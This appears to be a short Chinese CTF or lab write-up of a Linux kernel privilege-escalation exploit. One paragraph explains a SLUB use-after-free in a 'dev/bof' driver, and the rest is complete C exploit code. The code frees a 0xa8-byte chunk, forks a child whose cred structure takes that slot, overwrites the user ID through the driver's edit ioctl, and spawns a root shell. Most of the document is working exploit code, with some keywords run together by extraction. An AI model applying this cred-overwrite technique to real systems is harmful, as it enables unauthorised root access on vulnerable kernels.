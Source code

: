 cred 结构体大小为 0xa8 ，根据 slub 分配机制，如果申请和释放大小为 0xa8（实际为 0xc0 ）的内存块，此时再开一个线程，则该线程的 cred 结构题正是刚才释放掉的内存块。利用 UAF 漏洞修改 cred 就可以实现提权。  
## exp  
```
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sys/wait.h>

#define BOF_MALLOC 5
#define BOF_FREE 7
#define BOF_EDIT 8
#define BOF_READ 9

struct param {
size_t len;// 内容长度
char*buf;// 用户态缓冲区地址
unsignedlong idx;// 表示 ptr 数组的 索引
};

intmain(){
int fd = open("dev/bof", O_RDWR);
struct param p ={0xa8,malloc(0xa8),1};
    ioctl(fd, BOF_MALLOC,&p);
    ioctl(fd, BOF_FREE,&p);
int pid = fork();// 这个线程申请的cred结构体obj即为刚才释放的obj。
if(pid <0){
puts("[-]fork error");
return-1;
}
if(pid ==0){
        p.buf =malloc(p.len =0x30);
memset(p.buf,0, p.len);
        ioctl(fd, BOF_EDIT,&p);// 修改用户ID
if(getuid()==0){
puts("[+]root success");
            system("/bin/sh");
}else{
puts("[-]root failed");
}
}else{
        wait(NULL);
}
    close(fd);
return0;
}
```  
  